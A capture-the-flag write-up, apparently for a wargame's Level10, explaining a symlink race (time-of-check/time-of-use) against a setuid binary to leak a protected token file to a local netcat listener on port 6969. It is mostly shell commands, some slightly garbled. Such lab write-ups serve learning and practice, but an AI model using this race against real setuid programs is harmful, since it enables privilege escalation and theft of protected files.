 # Level10
## Step by step
- In the user `level10` home directory, there is a file
  ```bash
  > ls
  -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
  -rw-------  1 flag10  flag10     26 Mar  5  2016 token
  ```
- The programm `level10` print the content of a file pass in argument to a port that is listening on 6969
  ```bash
  > echo coucou >/tmp/test
  > nc -l localhost 6969

  
  > ./level /tmp/test 127.0.0.1
  coucou # from the nc command
  ```
- When we try to pass `token` file as argument the program print `You don't have access to token`
- To avoid this error check with access
  ```bash
  > cat <<hey >/tmp/script.sh
  > touch /tmp/tmp;
  > ln -sf /tmp/tmp /tmp/exploit
  > ./level10 /tmp/exploit 127.0.0.1 &
  > ln -sf ~/token /tmp/exploit
  > hey

  > nc -l localhost 6969
  > /tmp/script.sh
  .*( )*.
  XXX
  ```

